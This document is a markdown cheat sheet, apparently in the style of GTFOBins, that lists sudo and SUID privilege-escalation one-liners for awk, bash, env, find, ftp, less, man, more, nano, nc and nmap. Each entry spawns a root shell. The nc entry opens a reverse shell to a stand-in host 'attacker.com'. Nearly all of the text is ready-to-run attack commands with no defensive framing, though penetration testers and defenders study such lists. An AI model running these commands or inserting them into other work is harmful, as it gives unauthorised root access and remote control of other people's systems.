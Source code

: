 # AWK
### SUDO
```
sudo awk 'BEGIN {system("/bin/sh")}'
```

### SUID
```
sudo sh -c 'cp $(which awk) .; chmod +s ./awk'

./awk 'BEGIN {system("/bin/sh")}'

```

# BASH
### SUDO
```
sudo bash
```
### SUID
```
sudo sh -c 'cp $(which bash) .; chmod +s ./bash'

./bash -p
```
# ENV
### SUDO
```
sudo env /bin/sh
```
### SUID
```
sudo sh -c 'cp $(which env) .; chmod +s ./env'

./env /bin/sh -p
```
# FIND
### SUDO
```
sudo find . -exec /bin/sh \; -quit
```
### SUID
```
sudo sh -c 'cp $(which find) .; chmod +s ./find'

./find . -exec /bin/sh -p \; -quit
```
# FTP
### SUDO
```
sudo ftp
!/bin/sh
```
# LESS
### SUDO
```
sudo less /etc/profile
!/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which less) .; chmod +s ./less'

./less file_to_read
```
# MAN
### SUDO
```
sudo man man
!/bin/sh
```
# MORE
### SUDO
```
TERM= sudo -E more /etc/profile
!/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which more) .; chmod +s ./more'

./more file_to_read
```

# NANO
### SUDO
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
### SUID
```
sudo sh -c 'cp $(which nano) .; chmod +s ./nano'

./nano
^R^X
reset; sh 1>&0 2>&0
```
# NC
### SUDO
```
# Run nc -l -p 12345 on the attacker box to receive the shell. This only works with netcat traditional.

RHOST=attacker.com
RPORT=12345
sudo nc -e /bin/sh $RHOST $RPORT
```

# NMAP
### SUDO
```
#   Input echo is disabled.

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

#   The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

sudo nmap --interactive
nmap> !sh
```

